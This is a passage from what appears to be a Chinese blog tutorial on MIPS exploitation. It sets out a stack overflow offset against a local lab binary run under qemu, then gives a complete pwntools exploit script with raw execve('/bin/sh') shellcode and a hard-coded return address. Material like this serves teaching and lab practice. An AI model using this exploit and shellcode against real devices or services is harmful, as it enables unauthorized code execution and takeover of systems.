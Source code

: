 偏移为36 

使用shellcode

![图片](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/MIPS101/M7meShi7Z3UQ5jfq.png)

[http://shell-storm.org/shellcode/files/shellcode-80.php](http://shell-storm.org/shellcode/files/shellcode-80.php)

从gdb中读取固定的栈地址 

编写exp如下 

![图片](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/MIPS101/dO6FA5z5bLYPNgSo.png)

addr 处应该存放 0x76fff1ac

exp.py


```
from pwn import *
context.update(os="linux",bits = "32",arch="mips",endian="little",terminal=["tmux","splitw","-h"])
p = process(["/usr/bin/qemu-mipsel-static","-g","1234 ","./vuln"])
addr = 0x76fff1ac
shellcode="\x50\x73\x06\x24\xff\xff\xd0\x04\x50\x73\x0f\x24\xff\xff\x06\x28\xe0\xff\xbd\x27\xd7\xff\x0f\x24\x27\x78\xe0\x01\x21\x20\xef\x03\xe8\xff\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x23\xab\x0f\x02\x24\x0c\x01\x01\x01/bin/sh\x00"
p2 = "GET %\x00X"+cyclic(1000)
p1 = "GET %\x00X"+"a"*36+p32(addr)+shellcode
p.sendline(p1)
p.interactive()
```
## 系统模式
下载打包好的镜像 mipsel 
